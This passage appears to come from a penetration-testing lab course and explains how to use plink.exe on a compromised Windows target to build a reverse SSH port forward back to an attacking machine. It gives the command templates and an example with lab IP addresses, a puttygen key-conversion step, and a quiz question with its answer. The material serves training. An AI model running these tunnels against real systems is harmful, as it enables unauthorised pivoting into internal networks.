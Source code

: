 Plink.exe is a Windows command line version of the PuTTY SSH client. Now that Windows comes with its own inbuilt SSH client, plink is less useful for modern servers; however, it is still a very useful tool, so we will cover it here.

Generally speaking, Windows servers are unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:  
`cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`  

Notice that this syntax is nearly identical to previously when using the standard OpenSSH client. The `cmd.exe /c echo y` at the start is for non-interactive shells (like most reverse shells -- with Windows shells being difficult to stabilise), in order to get around the warning message that the target has not connected to this host before.

To use our example from before, if we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80 back to port 8000 our own attacking machine (172.16.0.20), we could use this command:  
`cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N`

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:  
`puttygen KEYFILE -o OUTPUT_KEY.ppk`  
Substituting in a valid file for the keyfile, and adding in the output file.  

The resulting `.ppk` file can then be transferred to the Windows target and used in exactly the same way as with the Reverse port forwarding taught in the previous task (despite the private key being converted, it will still work perfectly with the same public key we added to the authorized_keys file before).  

_**Note:** Plink is notorious for going out of date quickly, which often results in failing to connect back. Always make sure you have an up to date version of the_ `.exe`_. Whilst there is a copy pre-installed on Kali at_ `/usr/share/windows-resources/binaries/plink.exe`_, downloading a new copy from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) before a new engagement is sensible._  

---

Answer the questions below

1. What tool can be used to convert OpenSSH keys into PuTTY style keys?

**`puttygen`**

---

**Completed:** 2024-07-19